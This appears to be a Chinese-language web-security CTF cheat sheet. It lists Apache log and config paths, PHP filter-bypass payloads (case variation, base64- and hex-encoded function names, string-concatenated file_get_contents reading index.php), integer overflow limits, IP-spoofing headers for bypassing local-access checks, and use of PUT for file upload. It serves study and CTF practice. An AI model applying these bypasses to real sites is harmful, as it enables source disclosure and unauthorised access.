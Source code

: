 - **Apache**

  复制

  ```
  日志：
  /var/log/apache/access.log
  /var/log/apache2/access.log
  /var/www/logs/access.log
  /var/log/access.log
  /etc/httpd/logs/access_log
  /var/log/httpd/access_log
  
  配置：
  /etc/apache2/apache2.conf
  /etc/httpd/conf/httpd.conf
  ```



## 绕过

### 关键词

- 函数名、方法名、类名、关键字不区分大小写

```
<?php Show_source('index.php');?>
```

- 动态特性

```
<?php base64_decode('c2hvd19zb3VyY2U=')('index.php');?>
<?php echo ('fil'.'e_get_contents')('/var/www/html/index.php');?>
```

- 16进制

```
<?php ("\x70\x68\x70\x69\x6e\x66\x6f")();?>
```

### 溢出

32位：-2147483648 ~ 2147483647

64位：-9223372036854775808 ~ 9223372036854775807

### 本地访问

X-Forwarded-For, X-Client-ip, Client-ip, X-Real-IP

### 请求方法

查看支持请求方法：OPTIONS

任意文件上传：PUT
